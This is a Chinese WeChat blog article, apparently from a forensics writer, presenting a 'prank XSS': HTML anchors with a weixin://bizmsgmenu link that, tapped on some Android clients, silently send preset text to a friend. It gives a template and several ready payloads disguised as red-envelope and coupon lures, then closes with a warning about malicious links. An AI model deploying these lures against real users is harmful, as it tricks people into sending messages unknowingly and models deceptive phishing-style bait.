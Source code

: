> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI2MTUwNjI4Mw==&mid=2247489684&idx=1&sn=c2b5dfe499bbfe0a1ac672d8a12332ee

#  【数据安全篇】微信"引用"消息变成私信好友XSS整蛊  
原创 蘇小沐  DFIR蘇小沐   2025-07-13 07:00  
  
**1**  
  
**使用方法："引用"消息，发送代码**  
  
  
不管是微信  
群聊还是私聊，只要  
引用微信消息然后发这段  
"  
HTML代码"，别人  
点击这个消息  
后，就会自动  
私信发送给好友！！！  
并不会切换到好友聊天界面，是无感的，所以操作需要谨慎！！！  
  
  
目前只对部分Android系统有用，电脑端和iOS端都会显示源码！  
  
Android端：显示源码，有  
超链接蓝色字体。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYXia6G4ibDoVMYJvdAoos86M3nFZf7fa1OxledwlxsxUBoD6ic8mPSo2Lg/640?wx_fmt=png&from=appmsg "")  
  
  
Windows电脑端  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYvpqColjVVzvealVnnk45GSc0OYBHIC3Xu3B6zzSLXBSVGSadowk9bg/640?wx_fmt=png&from=appmsg "")  
  
  
好友显示：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYEydfTS9HgpPaFZyqgBWicRJCJIiaK7AiatTLwMarkywPRXvONZ7jdxlMg/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYJDNvtKAjicVzLS07ichNzKWMB4btJd0tVaQmNMBlEklBSmEU2ZjHm3dg/640?wx_fmt=png&from=appmsg "")  
  
  
  
**2**  
  
**源码：直接"引用" 群/好友消息，粘贴源码即可**  
  
  
里面的文字可根据场景自定义替换：  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/g0qdRkVkqNwkCOt391sibh4pZMD6VXSXYouI9E4yt1UW7DXZCseOCBRSrjerp99icsTpOpxx0uianOCh9B1NnOMBg/640?wx_fmt=png&from=appmsg "")  
  
  

```
<a 
href=&#34;weixin://bizmsgmenu
?msgmenucontent=【实际发送的信息】
&msgmenuid=960&#34;>【显示的信息】</a >
```

  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=你是我见过最帅的人  
  
&msgmenuid=960">点击领取红包  
🧧  
</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=把你的不开心通通赶走  
  
&msgmenuid=960">点击有惊喜</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=爸爸  
  
&msgmenuid=960">点击领取今日份红包  
🧧  
</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=你是我见过最帅的人  
  
&msgmenuid=960">点击领取美团大额优惠券  
🧧  
</a>  
  
  
  
<a  
  
href="weixin://bizmsgmenu  
  
?msgmenucontent=哎，又被骗了，我要加强学习了，也送你一份学习资料  
https://flk.npc.gov.cn/index.html  
  
&msgmenuid=960">点击领取红包🧧</a>   
  
  
  
**3**  
  
**注意事项**  
  
  
增强防范安全  
：如果是替换的是  
超链接/病毒链接/获取位置信息等……  
，是否会自动下载安装病毒文件、获取手机数据、位置信息等，造成数据泄露等风险。  
  
陌生信息不要乱点！！！  
  
  
书写片面，纯粹做个记录，有错漏之处欢迎指正！  
  
【声明：欢迎转发收藏，个人创作不易，喜欢记得点点赞！！！转载引用请注明出处，著作所有权归 [蘇小沐] 所有】  
  
【注：共享资源收集于官网或互联网公开材料，仅供学习研究，如有侵权请联系删除，谢谢！】  
<table><tbody><tr><td data-colwidth="514"><section style="margin-bottom: 0px;line-height: normal;"><span leaf=""><span textstyle="" style="color: rgb(0, 128, 255);">记录</span></span></section></td></tr><tr><td data-colwidth="514"><section style="line-height: normal;"><span leaf=""><span textstyle="" style="color: rgb(0, 128, 255);">开始编辑：2025年 07月 13日</span></span></section></td></tr><tr><td data-colwidth="514"><section style="line-height: normal;"><span leaf=""><span textstyle="" style="color: rgb(0, 128, 255);">最后编辑：2025年 07月 13日</span></span></section></td></tr></tbody></table>  
**END**  
  
  
  
关注我，了解更多取证知识，记得点赞+在  
看！![](https://mmbiz.qpic.cn/mmbiz_gif/kw2nrMk65sdm2h1H7HL0PuJZltDnjKlKJKwx2SOicHZ6ciceNaAhompextcznbssviakCvDN8S2yJxhDVDuZhxSFw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&random=0.7923755508015693&random=0.6074162352494825&random=0.7255493766092054 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/RITPxDQz30icticGDszvMCTbvDxbl8zxyibqkfOTIRXJQVU3YEHicR6AiatHvlnPic7qayibiazKoJV54NVDMmL1uVqsGg/640?wx_fmt=png&random=0.008279855111830159&random=0.8417589579850686&random=0.7406363082812077&random=0.10974797073162001&random=0.07292006660739969&wxfrom=5&wx_lazy=1&wx_co=1&random=0.9329563926201925 "")  
  
  
  
  
